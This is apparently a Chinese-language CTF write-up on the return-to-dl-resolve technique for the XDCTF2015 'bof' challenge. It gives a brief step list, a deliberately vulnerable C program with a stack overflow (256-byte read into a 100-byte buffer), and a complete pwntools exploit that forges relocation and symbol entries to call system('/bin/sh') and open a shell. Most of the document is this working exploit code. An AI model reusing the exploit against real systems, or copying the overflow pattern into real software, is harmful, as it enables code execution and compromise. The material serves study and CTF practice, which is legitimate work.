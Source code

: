 # Return-to-dl-resolve
&#8195;参加大佬的讲解，非常非常的详细！！！这里简单总结为如下的内容，主要需要了解动态重定向的过程。其实感觉这样一步一步的fake，貌似还更容易理解<br>
&#8195;1、通过栈溢出，构造rop，向bss段某位置写入数据<br>
&#8195;2、将栈地址改向bss段<br>
&#8195;3、写入正常的shellcode，使用write输出‘/bin/sh’（通过write plt）<br>
&#8195;4、修改为通过plt 0，给出reloc的偏移<br>
&#8195;5、构造假的重定向表，给出在动态链接符号表中的偏移<br>
&#8195;6、构造假的dynsym，给出在字符串表中的偏移<br>
&#8195;7、构造所需函数的字符串名字，改变参数<br>


## vuln code
```
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void vuln()
{
    char buf[100];
    setbuf(stdin, buf);
    read(0, buf, 256);
}
int main()
{
    char buf[100] = "Welcome to XDCTF2015~!\n";

    setbuf(stdout, buf);
    write(1, buf, strlen(buf));
    vuln();
    return 0;
}
```

## exp

```
from pwn import *
import time,sys,binascii

elf_name = "./bof"
elf = ELF(elf_name)

io = process( elf_name )
gdb.attach(io, "b *0x08048535")

write_plt = elf.plt['write']
read_plt = elf.plt['read']
write_got = 0x0804A020

bss_addr = 0x0804a040
stack_size = 0x800
bss_stage = bss_addr + stack_size

ppp_ret = 0x080485cc
pop_ebp_ret = 0x080485ce
leave_ret = 0x08048468
#write_offset = 0x28

payload1 = 'a' * 112
payload1 += p32(read_plt)
payload1 += p32(ppp_ret)
payload1 += p32(0)
payload1 += p32(bss_stage)
payload1 += p32(0x100)
payload1 += p32(pop_ebp_ret)
payload1 += p32(bss_stage)
payload1 += p32(leave_ret)
payload1 += 'a' * (0x100 - len(payload1))
io.send(payload1)

dynsym = 0x080481d8
dynstr = 0x08048278

plt_0 = 0x08048390  #objdump -d -j .plt bof
rel_plt = 0x08048330 # objdump -s -j .rel.plt bof
r_index = (bss_stage + 28) - rel_plt

align = (0x10 - (bss_stage + 36 - dynsym) & 0xf)
fake_sym_addr = bss_stage + 36 + align
sym_index = (fake_sym_addr - dynsym) / 0x10

r_offset = write_got
r_info = (sym_index << 8) | 0x7
fake_reloc = p32(r_offset) + p32(r_info)

str_addr = fake_sym_addr + 0x10
str_offset = str_addr - dynstr
fake_sym = p32(str_offset) + p32(0x0) + p32(0x0) + p32(0x12)


cmd = '/bin/sh'
payload2 = 'aaaa'
payload2 += p32(plt_0)
payload2 += p32(r_index)
payload2 += 'aaaa'
payload2 += p32(bss_stage + 0x80)
payload2 += 'aaaa'
payload2 += 'aaaa'
payload2 += fake_reloc
payload2 += 'a' * align
payload2 += fake_sym
payload2 += 'system' + '\x00'
payload2 += 'a' * (0x80 - len(payload2))
payload2 += cmd + '\x00'
payload2 += 'a' * (0x100 - len(payload2))

io.send(payload2)

io.interactive()

```

## 参考资料
32位： 
64位： http://www.freebuf.com/articles/system/149364.html
